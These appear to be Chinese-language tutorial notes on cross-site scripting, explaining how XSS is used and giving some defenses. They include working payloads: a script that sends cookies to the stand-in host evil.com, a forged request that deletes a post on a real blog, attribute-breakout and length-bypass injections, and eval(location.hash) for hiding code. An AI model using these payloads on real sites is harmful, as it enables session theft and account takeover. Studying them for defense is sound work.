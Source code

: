 # XSS
跨站脚本攻击，英文全称是Cross Site Script，本来缩写是CSS，但是为了和层叠样式表（Cascading Style Sheet, CSS）有所区别，所以在安全领域叫做“XSS”。



## Xss危害

### 1. 获取cookie

`    http://www.a.com/test.htm? abc="><script src=http://www.evil.com/evil.js ></script>`

```js
// evil.js
var img = document.createElement("img");
img.src = "http://www.evil.com/log? "+escape(document.cookie);
document.body.appendChild(img);
```

措施：

1. Set-Cookie时给关键Cookie植入HttpOnly标识

2. 把Cookie与客户端IP绑定，从而使得XSS窃取的Cookie失去意义

### 2. 构造GET、POST请求

正常删除该文章的链接是：`    http://blog.sohu.com/manage/entry.do? m=delete&id=156713012`

通过插入一张图片来发起一个GET请求，如果作者执行了该脚本则会删除文章，攻击者将通过XSS诱使用户执行XSS Payload

```js
var img = document.createElement("img");
img.src = "http://blog.sohu.com/manage/entry.do? m=delete&id=156713012";
document.body.appendChild(img);
```

POST同样，可以构造一个form表单提交或直接发送post请求

XSS攻击后，攻击者除了可以实施“Cookie劫持”外，还能够通过模拟GET、POST请求操作用户的浏览器。**这在某些隔离环境中会非常有用，比如“Cookie劫持”失效时，或者目标用户的网络不能访问互联网等情况。**

### 3. XSS钓鱼

前面说XSS可构造GET、POST请求，考虑下面2种场景：

1. 在提交表单时要求用户输入验证码，那么一般的XSS Payload都会失效；

2. 在大多数“修改用户密码”的功能中，在提交新密码前，都会要求用户输入“Old Password”。而这个“Old Password”，对于攻击者来说，往往是不知道的。



绕过方案：

1. 对于验证码，XSS Payload可以通过读取页面内容，将验证码的图片URL发送到远程服务器上来实施——攻击者可以在远程XSS后台接收当前验证码，并将验证码的值返回给当前的XSS Payload，从而绕过验证码。
2. 为了窃取密码，攻击者可以将XSS与“钓鱼”相结合。伪造登录框，诱导用户输入用户名、密码

### 4. 识别用户浏览器

`    alert(navigator.userAgent);`

mac：'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'

ios：'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Mobile Safari/537.36'

根据浏览器支持的某些特性来更加具体地判断浏览器机器版本，利用浏览器漏洞实施其它攻击。

### 5. 识别用户安装的软件

在IE中，可以通过判断ActiveX控件的classid是否存在，来推测用户是否安装了该软件。这种方法很早就被用于“挂马攻击”——黑客通过判断用户安装的软件，选择对应的浏览器漏洞，最终达到植入木马的目的。

```
try {
var Obj = new ActiveXObject('XunLeiBHO.ThunderIEHelper');
} catch (e){
// 异常了，不存在该控件
}
```

### 6. CSS History Hack

css的visited属性——如果用户曾经访问过某个链接，那么这个链接的颜色会变得与众不同。见 `1 CSS history.html`

### 7. XSS蠕虫

XSS Worm是XSS的一种终极利用方式，它的破坏力和影响力是巨大的。但是发起XSS Worm攻击也有一定的条件。一般来说，用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起XSS Worm攻击。比如，发送站内信、用户留言等页面，都是XSS Worm的高发区，需要重点关注。而相对的，如果一个页面只能由用户个人查看，比如“用户个人资料设置”页面，因为缺乏用户之间互动的功能，所以即使存在XSS，也不能被用于XSS Worm的传播。

## XSS构造技巧

### 1. 绕过长度

如果后台对产生XSS的地方有变量的长度限制

`    <input type=text value="$var" />`

服务器端如果对输出变量“$var”做了严格的长度限制，那么攻击者可能会这样构造XSS：

`    $var为： "><script>alert(/xss/)</script>`

期望`    <input type=text value=""><script>alert(/xss/)</script>" />`

如果后台限制20个字符，则实际为`    $var输出为： "><script> alert(/xss`

连一个完整的函数都无法写完，XSS攻击可能无法成功。



换一个事件的写法：

`    $var输出为： "onclick=alert(1)//`

实际输出：`    <input type=text value="" onclick=alert(1)//"/>`

也可以通过简短的代码加载更多的外部脚本



另一个“藏代码”的地方是“location.hash”。而且根据HTTP协议，location.hash的内容不会在HTTP包中发送，所以服务器端的Web日志中并不会记录下location.hash里的内容，从而也更好地隐藏了黑客真实的意图。

`    $var输出为： " onclick="eval(location.hash.substr(1))`

`    <input type="text" value="" onclick="eval(location.hash.substr(1))" />`

url: `    http://www.a.com/test.html#alert(1)` 就会弹窗

location.hash本身没有长度限制，但是浏览器的地址栏是有长度限制的，不过这个长度已经足够写很长的XSS Payload了。要是地址栏的长度也不够用，还可以再使用加载远程JS的方法，来写更多的代码。
